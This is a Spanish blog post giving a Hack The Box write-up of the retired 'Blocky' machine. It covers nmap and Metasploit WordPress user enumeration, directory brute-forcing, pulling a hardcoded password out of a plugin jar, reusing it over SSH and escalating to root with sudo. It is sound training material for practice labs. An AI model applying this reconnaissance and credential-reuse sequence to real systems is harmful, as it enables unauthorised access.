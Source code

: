 ```yaml
---
layout: post
title:  "Writeup — HTB Blocky"
date:   2017-12-10 13:13:13
author: Andoni A.
categories: Linux Writeups
tags: linux writeup seguridad ctf
---
```


Buenas, aprovechando que retiraban esta máquina, **Blocky**, de [HTB](hackthebox.eu) (hasta que no los retiran no está permitido publicar writeups sobre sus retos) quería
publicar mi primer writeup.

Esta máquina era bastante sencilla, lo más dificil era no perder el tiempo siguiendo alguna
"pista falsa".

- Como casi siempre, empezamos lanzando un escaneo con NMAP, veo un FTP, SSH y un Apache:
```
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|_  256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
```
  - El Apache aloja a simple vista un WordPress, parece simular ser la web de un
   server de Minecraft.


- Con un módulo de enumeración de usuariosde WP descubrimos el usuario 'notch':
```
msf auxiliary(wordpress_login_enum) > run -j
[*] Auxiliary module running as background job 7.
[*] / - WordPress Version 4.8 detected
[*] 10.10.10.37:80 - / - WordPress User-Enumeration - Running User Enumeration
[+] / - Found user 'notch' with id 1
[+] / - Usernames stored in: /root/.msf4/loot/20171206134659_default_10.10.10.37_wordpress.users_138712.txt
```

  - Pruebo un par de contraseñas a mano pero nada...


- Para ver que más puede contener la web uso [dirb](https://tools.kali.org/web-applications/dirb) y descubro algunas urls
interesantes como:
  - http://10.10.10.37/phpmyadmin
    - Probamos el usuario notch con varias claves, nada...
  - http://10.10.10.37/plugins/
    - Contiene un par de .jar que descargo para ver si tienen algo interesante.


- Empiezo por 'BlockyCore.jar' ya que parece más "custom" que 'griefprevention-1.11.2-3.1.1.298.jar' y puede que tenga algún fallo:
  ```
  venom :: Machines/Blocky/BlockyCore_jar » strings com/myfirstplugin/BlockyCore.class
  com/myfirstplugin/BlockyCore
  java/lang/Object
  sqlHost
  Ljava/lang/String;
  sqlUser
  sqlPass
  <init>
  Code
          localhost
  root
  8YsqfCTnvxAUeduzjNSXe22
  LineNumberTable
  LocalVariableTable
  this
  Lcom/myfirstplugin/BlockyCore;
  onServerStart
  onServerStop
  onPlayerJoin
  TODO get username
  !Welcome to the BlockyCraft!!!!!!!
  sendMessage
  '(Ljava/lang/String;Ljava/lang/String;)V
  username
  message
  SourceFile
  BlockyCore.java
  ```

- Veo lo que parece un user/pass:
  ```
  root
  8YsqfCTnvxAUeduzjNSXe22
  ```

- Probamos en el login de WP pero no funciona, pruebo por SSH:
  ```
    venom :: Machines/Blocky » ssh root@10.10.10.37
    root@10.10.10.37's password:

    venom :: Machines/Blocky » ssh notch@10.10.10.37        
    notch@10.10.10.37's password:
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

    7 packages can be updated.
    7 updates are security updates.

    Last login: Fri Dec  8 02:16:15 2017 from 10.10.14.79
    notch@Blocky:~$
  ```
    - En el home de notch tenemos la **flag** del user.


- Y después con un simple 'sudo su' accedo al usuario 'root' y obtengo la flag.

Como he dicho, esta máquina era bastante sencilla aunque me costó un buen rato encontrar algo dentro de los .jar...

Espero poder sacar un rato y subir alguno de los retos que me parecieron
interesantes del CTF de la HoneyCON17.

*~ Saludos y que la fuerza os acompañe!*
